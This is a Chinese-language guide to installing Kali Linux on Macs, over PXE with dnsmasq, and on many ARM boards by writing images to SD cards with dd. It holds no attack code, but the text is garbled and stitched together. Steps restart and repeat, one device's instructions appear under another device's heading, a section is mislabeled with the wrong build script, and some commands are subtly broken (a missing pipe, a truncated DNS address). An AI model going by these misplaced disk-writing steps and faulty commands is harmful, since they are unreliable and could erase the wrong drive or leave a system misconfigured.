本章节将指导你如何在 Mac 硬件上将 OS X 替换为 Kali Linux，并允许你选择对 Kali Linux 安装进行加密。

# 安装前提

+ 1. Kali Linux 安装至少需要 20GB 磁盘空间。
2. 至少 1GB 内存。不过，建议配备 2GB 或更高内存。
3. 对于 2012 年之前的设备，在没有 rEFInd 的情况下，USB 启动可能无法工作。因此建议准备一张空白 DVD。
4. 对于 2012 年以后的设备，需要一张空白 DVD 或空间 4GB 及以上的 USB 闪盘。
5. OS X 10.7 或更高版本。

# 安装准备工作

你可以通过准备好以下清单为安装做好准备。

+ 1. 根据你的系统架构下载 Kali Linux ISO。
2. 使用上一章提到的工具将 Kali Linux ISO 写入 DVD 或 USB 驱动器。
3. 确保你的电脑已设置为允许从 USB 驱动器启动。
4. 确保你所有重要数据均已备份。
+ 1. 要开始安装，开启你的 Mac 设备并立即按下 Options 键进入启动菜单。
2. 插入你为 Kali Linux 安装创建的媒体，取决于你的系统是 USB 驱动器还是 DVD。如果一切准备就绪，你将看到两个选项：EFI 和 Windows。尽管 Kali Linux 是基于 Debian 的操作系统，但在苹果设备上它显示为 Windows。
+ 3. 点击 Windows 卷。

如果看不到 Windows 选项，说明你的系统不支持该安装媒体。在这种情况下，你可以安装 rEFInd 并重试过程。选择 EFI 卷将导致启动过程挂起。

+ 4. 当你选择 Windows 时，Kali 启动界面将出现在你的系统上。现在你可以选择“图形化安装”（Graphical Install）或“文本模式”（Text-mode）安装方法。在本书中，我们将遵循“图形化安装”方法。
+ 5. 在下一个屏幕上，选择你的国家/地区和首选语言。你还将为系统选择键盘布局。
+ 6. 安装将开始并将所有安装文件复制到系统的硬盘中。随后你将被要求为系统输入主机名，你可以根据喜输入任何名称。如果你有域名，也可以输入。
+ 7. 根据你的网络输入网络信息。网络配置将自动获取，但如果你的网络上有 DHCP 服务，安装可能会要求你手动输入网络信息。也可能发生安装检测不到网卡的情况，此时稍后可以手动安装驱动。
+ 8. 为你的系统创建一个强密码。
+ 9. 为你的系统选择一个时区。
10. 安装程序现在将列出安装 Kali Linux 的磁盘选项。我们已经在之前的步骤中创建了一个分区用于 Kali 安装。选择“引导 – 使用整个磁盘”（Guided – use the entire disk）。

如果你是经验丰富的用户，可以随时使用“手动”（Manual）选项进行细粒度配置。在此屏幕上，如果你想让 Kali 安装被完全加密，还可以设置加密的 LVM。

11. 现在将提示你输入密码。输入你在此过程中第 8 步设置的相同密码。注意，你每次启动 Kali Linux 都必须使用同一个密码。

12. 安装程序将在询问密码之前将安全地擦除你的磁盘。取决于磁盘的大小和速度，这需要一些时间或几个小时。

接下来，我们必须选择想要维护的分区结构。如果你希望将所有内容放在单个分区中，请使用默认选项。你将看到一个概览，如果你认同，可以点击“继续”。

13. 在此屏幕上，你将最后一次机会检查为安装选择的磁盘配置，之后更改将是不可逆的。点击“继续”，安装将开始，你几乎就完成了。

14. 下一步是为你的系统配置网络镜像。Kali 使用一个中央仓库来分发应用程序。如果你使用代理服务器，需要在此处输入相关信息。

注意：如果你在此屏幕上选择“否”（NO），你未来将无法使用任何 Kali 仓库进行软件安装。

15. 在此屏幕上，你将安装 GRUB。统一引导加载程序（Grand Unified Bootloader 或 GRUB）是一种引导加载程序，用于在你有多个操作系统需要启动时。你可以将 GRUB 安装在主引导记录（MBR）上，并将其设置为系统的主引导程序。

16. 最后点击“继续”完成 Kali Linux 安装。我们建议你现在重启系统。系统重启后，重复前两个步骤再次进入“Live 模式”。

17. 如果你的 Kali Linux ISO 不包含 `gdisk` 包，则需要先安装它。

18. 如果在 Kali Linux 安装期间启用了网络仓库，你可以轻松使用以下命令安装 `gdisk`。

```
apt-get update
```

```
apt-get install gdisk
```

我们现在必须确保 Apple 的 EFI 可以检测并启动 GRUB。为了做到这一点，我们需要将 MBR 转换为混合模式（hybrid）。

```
19. root@kali:~# gdisk /dev/sda
```

```
zsh: correct 'gdisk' to 'fdisk' [nyae]? n
GPT fdisk (gdisk) version 0
```

- 3. 安装将开始并将所有安装文件复制到您系统的硬盘上。随后，您将被要求为系统输入主机名，您可以根据喜好输入任何名称。如果您有域名，也可以输入。
- 4. 为您的系统创建一个强密码。


## Kali Linux 安装步骤

### 5. 为您的系统选择一个时区。

### 6. 安装程序现在将列出用于安装 Kali Linux 的磁盘选项。我们在之前的步骤中已经创建了一个分区用于 Kali 安装。请选择“引导 – 使用整个磁盘并设置加密 LVM”（`Guided – use the entire disk and set up encrypted LVM`）。

### 7. 选择您想要安装 Kali Linux 的目标驱动。如果使用 USB 驱动作为目标驱动，将来可以使用此 USB 驱动启动加密的 Kali Linux 会话。

### 8. 输入您对分区方案的偏好。为了加密，您需要输入加密密码。请注意，每次启动 Kali Linux 时都要使用相同的密码。

### 9. 下一步是为系统配置网络镜像。Kali 使用中心存储库来分发应用程序。如果您使用代理服务器，则需要在此处输入相关信息。

注意：如果在此屏幕上选择 NO，未来您将无法使用任何 Kali 存储库进行软件安装。

### 10. 在此屏幕上，您将安装 GRUB。全统一引导加载程序（GRUB）是一种引导加载程序，适用于您有多个操作系统需要启动的情况。您可以在主引导记录上安装 GRUB，并将其设置为系统的主要引导加载程序。

### 11. 最后点击“继续”（`Continue`）完成 Kali Linux 安装。我们建议您现在重启系统。如果在安装期间将目标驱动器选择为 USB 驱动器，则您需要在 BIOS 中启用 USB 启动。启动时输入加密密码以进入加密安装的 Kali Linux 系统。

## Kali Linux 网络 PXE 安装

### 设置 PXE 服务器

预启动执行环境（PXE）是一种允许网络上未加载操作系统的计算机通过管理员的远程访问进行启动和配置的方法。Kali Linux 的 PXE 安装非常实用，从没有 CD-ROM 或 USB 接口的单台笔记本电脑，到企业网络中大量的 Kali Linux 部署。

我们从安装 `dnsmasq` 开始以创建一个 DHCP/TFTP 服务器，然后编辑 `dnsmasq.conf` 文件。

```
apt-get install dnsmasq

nano /etc/dnsmasq.conf
```

在 `dnsmasq.conf` 中，我们必须启用 PXE、DHCP 和 TFTP 启动，并根据您的网络环境修改 `dhcp-range`。可选，如果需要，您还可以使用 `dhcp-option` 参数修改您的 DNS 服务器和网关：

```
interface=eth0
dhcp-range=192.168.101.100,192.168.101.200,12h
dhcp-boot=pxelinux.0
enable-tftp
tftp-root=/tftpboot/
dhcp-option=3,192.168.101.1
dhcp-option=6,8.8.8.8,8.4.4
```

修改参数后，重启 `dnsmasq` 服务使更改生效。

```
service dnsmasq restart
```

### 下载 Kali PXE 网络启动镜像

现在我们将开始创建一个目录来存放 Kali Linux 网络启动镜像，并从网站下载我们需要的 Kali Linux 镜像。

```bash
mkdir -p /tftpboot
cd /tftpboot
```

#### 适用于 64 位系统：

```
wget http://http.kali.org/kali/dists/kali-rolling/main/installer-amd64/current/images/netboot/netboot.tar.gz
```

#### 适用于 32 位系统：

```
wget http://http.kali.org/kali/dists/kali-rolling/main/installer-i386/current/images/netboot/netboot.tar.gz
tar -zxp netboot.tar.gz
rm netboot.tar.gz
```

### 配置目标从网络启动

一旦您按照提到的配置好所有内容，现在就可以启动网络上的目标系统并配置其从网络启动。您的 PXE 服务器将为目标系统分配 IP 地址，目标系统将启动 Kali Linux。

## Kali Linux – ASUS Chromebook Flip

ASUS Chromebook Flip 是一款具有以下配置的 ARM Chromebook 设备。

- 1. 1.8 GHz 四核处理器
- 2. 2GB 或 4GB 内存
- 3. 10.1 英寸 10 点多触摸屏

Kali Linux 可以安装在外部 SD 卡或 USB 驱动器上。

以下指令将帮助您在 ASUS Chromebook Flip 上安装 Kali Linux。

- 1. 您需要一个 8GB 或更大的 USB 驱动器或 SD 卡来安装 Kali Linux。
- 2. 通过进入开发者模式开启 Chromebook 的 USB 启动。由于该设备不支持 SeaBIOS，可以忽略遗留启动（legacy boot）。
- 3. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 ASUS Chromebook Flip 的 Kali Linux ISO。
- 4. 现在可以将此镜像写入 SD 卡。

注意：如果在此屏幕上选择 NO，未来您将无法使用任何 Kali 存储库进行软件安装。

3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。

在我们的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据需要对其进行更改。

注意：这将擦除 SD 卡上的所有内容。选择错误的磁盘设备可能会导致设备硬盘被清空。

```
xzcat kali-$version-rpi2.xz | dd of=/dev/sdb bs=512k
```

此过程取决于设备速度和镜像大小，需要一些时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，在保持 SD 卡插入的情况下启动 Raspberry Pi2。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

### Raspberry Pi2 Kali 开发者指南

如果你是一个喜欢冒险并喜欢软件开发，并且想要对 Raspberry Pi2 的 Kali Linux 镜像进行某些自定义（例如修改内核配置），可以 https://github.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `rpi2.sh`

## Kali Linux – Raspberry Pi

Raspberry Pi2 是一款 ARM 设备，具有以下配置：

- 1. 1GHz 双核处理器
- 2. 1GB 内存

可以使用外部 SD 卡为 Raspberry Pi2 安装 Kali Linux。

### Raspberry Pi2 Kali 用户指南

以下指南将帮助你在 Raspberry Pi2 上安装 Kali Linux。

- 1. 你需要一张 8GB 或更大的 SD 卡或 eMMC 来安装 Kali Linux。
- 2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载 Kali Linux 的 ISO。
- 3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据需要对其进行更改。

注意：这将擦除 SD 卡上的所有内容。选择错误的磁盘设备可能会导致设备硬盘被清空。

```
xzcat kali-$version-rpi2.xz | dd of=/dev/sdb bs=512k
```

此过程取决于设备速度和镜像大小，需要一些时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，在保持 SD 卡插入的情况下启动 Raspberry Pi2。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

### Raspberry Pi2 Kali 开发者指南

如果你是一个喜欢冒险并喜欢软件开发，并且想要对 Raspberry Pi2 的 Kali Linux 镜像进行某些自定义（例如修改内核配置），可以 https://github.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `rpi2.sh`

## Kali Linux – Trimslice

Trimslice 是一款 ARM 设备，具有以下配置：

- 1. 1GHz 双核处理器
- 2. 1GB 内存

可以使用外部 SD 卡为 Trimslice 安装 Kali Linux。

### Trimslice Kali 用户指南


以下指南将帮助你在 Trimslice 上安装 Kali Linux。

1. 你需要一张 8GB 或更大的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载 Kali Linux 的 ISO。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据需要对其进行更改。

注意：这将擦除 SD 卡上的所有内容。选择错误的磁盘设备可能会导致设备硬盘被清空。

```
xzcat kali-$version-trimslice.img.xz | dd of=/dev/sdb bs=512k
```

此过程取决于设备速度和镜像大小，需要一些时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，在保持 SD 卡插入的情况下启动 Trimslice。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

# Trimslice Kali 开发者指南

如果你是一个喜欢冒险并喜欢软件开发，并且想要对 Trimslice 的 Kali Linux 镜像进行某些自定义，例如修改内核配置，可以 https://github.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `trimslice.sh`

# Kali Linux – Cubieboard

Cubieboard 是一款 ARM 设备，具有以下配置：

1. 0.9GHz 双核处理器
2. 1GB 内存

可以使用外部 SD 卡为 Cubieboard 安装 Kali Linux。

## Cubieboard Kali 用户指南

以下指南将帮助你在 Cubieboard 上安装 Kali Linux。

1. 你需要一张 8GB 或更大的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载 Kali Linux 的 ISO。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据需要对其进行更改。

注意：这将擦除 SD 卡上的所有内容。选择错误的磁盘设备可能会导致设备硬盘被清空。

```
xzcat kali-$version-cubieboard.img.xz | dd of=/dev/sdb bs=512k
```

此过程取决于设备速度和镜像大小，需要一些时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，在保持 SD 卡插入的情况下启动 Cubieboard。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

## Cubieboard Kali 开发者指南

如果你是一个喜欢冒险并喜欢软件开发，并且想要对 Cubieboard 的 Kali Linux 镜像进行某些自定义，例如修改内核配置，可以 https://github.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `cubieboard.sh`

# Kali Linux – Riotboard

Riotboard 是一款 ARM 设备，具有以下配置：

1. 1GHz Cortex A9 处理器
2. 1GB 内存

可以使用外部 SD 卡为 Riotboard 安装 Kali Linux。

## Riotboard Kali 用户指南

以下指南将帮助你在 Riotboard 上安装 Kali Linux。

1. 你需要一张 8GB 或更大的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载 Kali Linux 的 ISO。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据需要对其进行更改。

注意：这将擦除 SD 卡上的所有内容。选择错误的磁盘设备可能会导致设备硬盘被清空。

```
xzcat kali-$version-riot.img.xz | dd of=/dev/sdb bs=512k
```

此过程取决于设备速度和镜像大小，需要一些时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，在保持 SD 卡插入的情况下启动 Riotboard。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

## Riotboard Kali 开发者指南

如果你是一个喜欢冒险并喜欢软件开发，并且想要对 Riotboard 的 Kali Linux 镜像进行某些自定义，例如修改内核配置，可以 https://github.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `riot.sh`

## RIOTboard 上的 Kali – 开发者指南

如果你是一个喜欢冒险并热衷于软件开发的人，并想对 RIOTboard 的 Kali Linux 镜像进行一些自定义，例如更改内核配置，你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `riot.sh`。

# Kali Linux – NanoPi2

NanoPi2 是一款 ARM 设备，其配置如下：

1. 1.9 GHz 四核处理器
2. 1GB 内存

NanoPi2 可以使用外部 SD 卡安装 Kali Linux。

## NanoPi2 上的 Kali – 用户指南

以下说明将帮助你如何在 NanoPi2 上安装 Kali Linux。

1. 你需要一张 8GB 或更高容量的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 NanoPi2 的 Kali Linux ISO 文件。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求进行更改。

注意：这将删除 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被擦除。

```
xzcat kali-$version-nanopi2.img.xz | dd of=/dev/sdb bs=512k
```

此过程取决于你的设备速度和镜像大小，可能需要一段时间时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，你可以在插着 SD 卡的情况下启动 NanoPi2。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

## NanoPi2 上的 Kali – 开发者指南

如果你是一个喜欢冒险并热衷于软件开发的人，并想对 NanoPi2 的 Kali Linux 镜像进行一些自定义，例如更改内核配置，你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `nanopi2.sh`。

# Kali Linux – Utilit Pro

Utilit Pro 是一款 ARM 设备，其配置如下：

1. 1.2 GHz 四核 Cortex A9 处理器
2. 2GB 内存

Utilit Pro 可以使用外部 SD 卡安装 Kali Linux。

## Utilit Pro 上的 Kali – 用户指南

以下说明将帮助你如何在你的 Utilit Pro 上安装 Kali Linux。

1. 你需要一张 8GB 或更高容量的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 Utilit Pro 的 Kali Linux ISO 文件。


### 你现在可以使用 `dd` 工具将此镜像写入 SD 卡
在我们展示的示例中，我们将 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求进行更改。

注意：这将删除 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被擦除。

```
xzcat kali-$version-utilite.img.xz | dd of=/dev/sdb bs=512k
```

此过程取决于你的设备速度和镜像大小，可能需要一段时间时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，你可以在插着 SD 卡的情况下启动 Utilit Pro。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

# Utilit 上的 Kali – 开发者指南

如果你是一个喜欢冒险并热衷于软件开发的人，并想对 Utilit 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `utilite.sh`。

# Kali Linux – ODROID-C1

ODROID-C1 是一款 ARM 设备，配置如下：

- 1.5 GHz 四核 Cortex A5 处理器
- 1GB 内存

ODROID-C1 可以使用外部 SD 卡安装 Kali Linux。

# ODROID-C1 上的 Kali – 用户指南

以下说明将帮助你如何在 ODROID-C1 上安装 Kali Linux。

1. 你需要一张 8GB 或更高容量的 SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 ODROID-C1 的 Kali Linux ISO 文件。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求进行更改。

注意：这将删除 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被擦除。

```
xzcat kali-$version-odroid.img.xz | dd of=/dev/sdb
```

此过程取决于你的设备速度和镜像大小，可能需要一段时间时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，你可以在插着 SD 卡的情况下启动 ODROID-C1。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

# ODROID-C1 上的 Kali – 开发者指南

如果你是一个喜欢冒险并热衷于软件开发的人，并想对 ODROID-C1 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `odroid.sh`。

# Kali Linux – USB Armory

USB Armory 是由 Inverse 设计的硬件，它是一个像 U 盘大小的开源计算机。USB Armory 可以使用外部 SD 卡安装 Kali Linux。

# USB Armory 上的 Kali – 用户指南

以下说明将帮助你在 USB Armory 上安装 Kali Linux。

1. 你需要一张 8GB 或更高容量的 SD 卡安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 USB Armory 的 Kali Linux ISO 文件。
3. 你现在可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求进行更改。

注意：这将删除 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被擦除。

```
xzcat kali-$version-usbarmory.img.xz dd of=/dev/sdb bs=512k
```

此过程取决于你的设备速度和镜像大小，可能需要一段时间时间。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，你可以在插着 SD 卡的情况下启动 USB Armory。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

# USB Armory 上的 Kali – 开发者指南

如果你是一个喜欢冒险并热衷于软件开发的人，并想对 USB Armory 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `usbarmory.sh`。

# Kali Linux – Acer Tegra Chromebook 13”

Tegra Chromebook 是一款基于 ARM 的超便携式笔记本电脑。在 Acer Tegra Chromebook 上运行 Kali 镜像是一个巨大的挑战。Acer Tegra Chromebook 的配置如下：

- 2.1 GHz 四核 Tegra K1 处理器。
- 4GB 内存。

Acer Tegra Chromebook 可以使用外部 SD 卡安装 Kali Linux，保持内部硬盘完全安全且未处理。

# Chromebook 版 Kali Linux – 用户指南

以下指令将帮助你在你的 Acer Tegra Chromebook 上安装 Kali Linux。

1. 你需要一张 8GB 或更高容量 SD 卡来安装 Kali Linux。
2. 启用 USB 启动并将 Acer Tegra Chromebook 置于开发者模式。
3. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 Acer Tegra Chromebook 的 Kali Linux ISO。
4. 现在你可以使用 `dd` 工具将此镜像写入 SD 卡中。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求更改此路径。

注意：这将擦除你 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被抹除。

```
xzcat kali-$version-acer.img | dd of=/dev/sdb bs=512k
```

取决于你的设备速度和镜像大小，此过程可能需要一段时间时间。

完成 Kali Linux 安装所花费的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，你可以在插入 SD 卡的情况下启动 Acer Tegra Chromebook。你可以使用用户名 `root` 和密码 `toor` 登录 Kali 桌面。

# Acer Tegra Chromebook 版 Kali Linux – 开发者指南

如果你是一个富有冒险精神并喜欢钻研软件开发的人，并想对 Acer Tegra Chromebook 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看 ARM 设备的 Kali 脚本。使用的脚本是 `chromebook-arm-acer.sh`。

# ODROID-XU3 上的 Kali Linux

ODROID-XU3 是一款八核 ARM 设备，具有以下配置：

- 4 个 A15 核心和 4 个 A7 核心，提供处理能力
- 4GB 内存
- 它是一款快速的 ARM 设备。

可以使用外部 SD 卡为 ODROID-XU3 执行 Kali Linux 安装。

# ODROID-XU3 版 Kali Linux – 用户指南

以下指令将帮助你在你的 ODROID-XU3 上安装 Kali Linux。

1. 获取一张优质快速的 8 GB micro SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 ODROID-XU3 的 Kali Linux ISO。


# ODROID-XU3 版 Kali Linux – 开发者指南

如果你是一个富有冒险精神并喜欢钻研软件开发的人，并想对 ODROID-XU3 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://github.com/kalilinux/build-scripts 查看 ARM 设备的 Kali 脚本。使用的脚本是 `odroid-xu3.sh`。

## Kali Linux – Box-i4Pro

SolidRun Box-i4Pro 是世界上最小的电脑。其配置如下：

- 四核处理器
- 2GB 内存
- SD 卡槽和以太网口

### Box-i4Pro 版 Kali Linux – 用户指南

以下指令将帮助你在你的 Box-i4Pro 上安装 Kali Linux。

1. 获取一张优质快速的 8 GB micro SD 卡或 eMMC 来安装 Kali Linux。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 Box-i4Pro。
3. 现在你可以使用 `dd` 工具将此镜像写入 SD 卡中。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求更改此路径。

注意：这将擦除你 SD 卡上的所有内容。选择错误的设备也可能导致设备的硬盘被抹除。

```
xzcat kali-$version.img | dd of=/dev/sdb bs=512k
```

取决于你的设备速度和镜像大小，此过程可能需要一段时间时间。

完成 Kali Linux 安装所花费的时间取决于 SD 卡 的速度。

`dd` 操作完成后，你可以在插入 SD 卡的情况下启动 Box-i4Pro。你可以使用用户名 ‘root’ 和密码 ‘toor’ 登录 Kali 桌面。

# Kali Pro – 开发者指南

如果你是一个富有冒险精神并喜欢钻研软件开发的人，并想对 Kali-xu3 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts 查看 ARM 设备的 Kali 脚本。使用的脚本是 `xu3.sh`。

## Kali Linux – Chromebook 2

Chromebook 2 是一款超便携的 ARM 设备。其配置如下：

- 1.7GHz 四核 Exynos 5800
- 4GB 内存
- 它是一款快速的 ARM 设备

### Chromebook 2 版 Kali Linux – 用户指南

以下指令将帮助你在你的 Chromebook 2 上安装 Kali Linux。

1. 获取一张优质快速的 8 GB micro SD 卡来安装 Kali Linux。
2. 启用 USB 启动并将 Chromebook 置于开发者模式。
3. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 Chromebook 2。
4. 现在你可以使用 `dd` 工具将此镜像写入 SD 卡中。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求更改此路径。

注意：这将擦除你 SD 卡上的所有内容。选择错误的磁盘设备也可能导致设备的硬盘被抹除。

```
xzcat kali-exynos.img.xz | dd of=/dev/sdb bs=512k
```

取决于你的设备速度和镜像大小，此过程可能需要一段时间时间。

完成 Kali Linux 安装所花费的时间取决于 SD 卡 的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，你可以在插入 SD 卡的情况下启动 Chromebook 2。你可以使用用户名 ‘root’ 和密码 ‘toor’ 登录 Kali 桌面。

### Chromebook 2 版 Kali Linux – 开发者指南

如果你是一个富有冒险精神并喜欢钻研软件开发的人，并想对 Chromebook 2 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://github.com/kalilinux/build-scripts 查看 ARM 设备的 Kali 脚本。使用的脚本是 `chromebook-exynos.sh`。

## Kali Linux – Raspberry Pi

Raspberry Pi 是一款口袋友好的 ARM 电脑，尺寸与信用卡相当。与其他 ARM 设备相比，它的配置较低，但价格优势使其广广受欢迎。

Raspberry Pi 使用 SD 卡供电，并在板载开启时从 SD 卡启动。

适用于 Raspberry Pi 的 Kali Linux 镜像加载了最少工具，这符合其他 ARM 设备的标准。然而，你可以通过升级 `kali-fullmeta` 软件包安装完整的桌面包。

### Raspberry Pi 版 Kali Linux — 预构建版本

以下指令将帮助你在你的 Raspberry Pi 上安装 Kali Linux。

1. 获取一张优质快速的 8 GB micro SD 卡来安装 Kali Linux。我们建议使用 Class 10 的 SD 卡。
2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于树莓派的 Kali Linux ISO。
3. 现在您可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。您可以根据自己的需求更改此路径！

注意：这将擦除您 SD 卡上的所有内容。选择错误的磁盘设备还可能导致设备的固态硬盘被擦除。

```
root@kali:~~ dd if=kali-2.1.2-rpi.img of=/dev/sdb bs=512k
```

此过程可能需要一段时间，具体取决于您的设备速度和镜像大小。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，您可以在保持 SD 卡插入的情况下启动树莓派。您可以使用用户名 ‘root’ 和密码 ‘toor’ 登录 Kali 桌面。

注意：Kali Linux 的所有 ARM 镜像都预配置了相同的公钥。因此，建议在安装完成后尽快更改公钥。您可以使用以下命令进行操作。

```
root@kali:~ rm /etc/ssh/ssh_host_*
root@kali:~ dpkg-reconfigure openssh-server
root@kali:~ service ssh restart
```

### 树莓派上的 Kali Linux — 自定义构建

如果您是一个喜欢冒险并喜欢软件开发的人，并想要对 ODROID-XU3 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `isrpi.sh`。

## Kali Linux – BeagleBone Black

BeagleBone Black 是一款 ARM 设备，成本较低，并由开发者和爱好者的社区支持支持运行。BeagleBone Black 具有以下配置：

1GHz Cortex-A8 处理器，包含 3D 加速和硬件浮点运算。在功耗方面，它比台式电脑或笔记本电脑低，但由于价格实惠而再次受欢迎。

可以使用外部 SD 卡进行 Kali Linux 安装，如果该 SD 卡被制作成启动盘，其优先级将高于板载操作系统。

BeagleBone Black 的 Kali Linux 镜像加载了最少工具，符合为其他 ARM 设备维护的标准。然而，您可以通过 `kali-linux-full` 元包通过升级来安装完整的桌面包。

### 3. 现在你可以使用 `dd` 工具将此镜像写入 SD 卡中

在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。你可以根据自己的需求更改此路径。

注意：这将擦除你 SD 卡上的所有内容。选择错误的设备也可能导致设备的硬盘被抹除。

```
xzcat kali-$version-odroidxu3.img.xz | dd of=/dev/sdb bs=512k
```

取决于你的设备速度和镜像大小，此过程可能需要一段时间时间。

完成 Kali Linux 安装所花费的时间取决于 SD 卡 `dd` 的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，你可以在插入 SD 卡的情况下启动 ODROID-XU3。你可以使用用户名 ‘root’ 和密码 ‘toor’ 登录 Kali 桌面。


